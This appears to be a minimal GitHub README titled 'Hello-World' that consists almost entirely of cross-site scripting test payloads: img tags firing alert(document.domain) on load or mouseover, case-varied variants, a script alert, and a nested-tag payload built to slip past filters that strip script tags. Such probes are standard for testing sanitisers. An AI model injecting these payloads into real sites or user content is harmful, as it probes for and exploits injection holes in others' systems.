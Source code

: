 # Hello-World
<img src='x'onmouseover=alert(document.domain)>
<img src='x'onload=alert(document.domain)>
<img src='x'onload=alERt(document.domain)>
<script>alert(0)</script>
<scr<scrIPt>ipt>aleALerTrt(0)</scr</scrIPt>ipt>

